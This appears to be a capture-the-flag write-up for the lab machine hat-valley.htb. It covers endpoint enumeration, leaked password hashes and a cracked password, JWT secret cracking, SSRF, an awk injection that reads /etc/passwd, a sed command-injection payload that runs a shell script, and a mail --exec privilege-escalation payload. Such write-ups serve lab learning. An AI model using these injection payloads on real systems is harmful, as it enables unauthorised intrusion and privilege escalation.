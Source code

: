 Initial Nmap Scan

```bash
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

Accessing port 80 through browser site will redirect to this hostname

baseurl
```bash
http://hat-valley.htb
```
Fuzzing subdomain
```bash
#subdomain
http://store.hat-valley.htb
```
found endpoints from 
```bash
http://hat-valley.htb/js/app.js
```
endpoints

```bash
http://hat-valley.htb/hr
http://hat-valley.htb/dashboard
http://hat-valley.htb/leave
```
api endpoints
```bash
http://hat-valley.htb/api/
http://hat-valley.htb/api/all-leave {Need Auth}
http://hat-valley.htb/submit-leave {reason,start,end} {Need Auth}
http://hat-valley.htb/api/login   {username,password}
http://hat-valley.htb/api/staff-details {No need of auth}
http://hat-valley.htb/api/store-status {url:"value"} {No need of auth}
```

Names from Teams
```bash
jackson Lightheart
bean Hill
christine Wool {CEO}
christopher Jones
```
Login
```bash
http://store.hat-valley.htb {basic Auth}
http://hat-valley.htb/hr   {"username":"password"}
```

This endpoint is vulnerable for access control we don't need any token for getting these data
http://hat-valley.htb/api/staff-details

Found username and it's passwords
```bash
christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
jackson.lightheart:b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
bean.hill:37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f
```

One hash is crackable
cracked password
```bash
christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1:chris123
```

SSRF from store-status endpoint and found the backend server listening port 3002 and the response show some api documention
http://hat-valley.htb/api/store-status?url="http://localhost:3002"

Api documentation 
patached.html

Reading the documentation i found a file read in all-leave endpoint
http://hat-valley.htb/api/all-leave   
Abusing "awk"   
This endpoint is used to fetch user leave requests and the endpoint need user token to fetch the details
the mechanisam behind the fetching user details it use awk command (linux command) for getting data from leave requests stored file that is a csv file on target. server will extract username from user token and getting that particuler user data from csv file using awk. we need to foreging the cookie for injecting filename in username feild of the token

```bash
#bruteforceing the cookie using john and jwt2john tool 
jwt secret = 123beany123
```
rawCommand
```bash
awk '/user/' leave_requests.csv
```

abusedCommand
```bash
awk '//' /etc/passwd '/' leave_reve_requests.csv
```

FOOTHOLD

I write a python script for reading file from target

Machine users
```bash
bean:x:1001:1001:,,,:/home/bean:/bin/bash
christine:x:1002:1002:,,,:/home/christine:/bin/bash
```

Machine user bean password from home_backup tar file
```bash
bean:014mrbeanrules!#P
```
user to www-data

exploiting sed system command on store.hat-valley.htb

payload
```bash
/' -e '1e /dev/shm/rce.sh' '
```
it work like this
```javascript
{sed -i '/item_id=/' -e '1e /dev/shm/rce.sh' '/d' /var/www/store/cart/randomuser-id}
````

I write a script for getting www-data shell

Privilege escalation through mail command
```bash
#payload
; --exec='!/dev/shm/cmd.sh',pe,pe,pe,pe
```

#scripts are i used for this machine will also upload the awkward directory
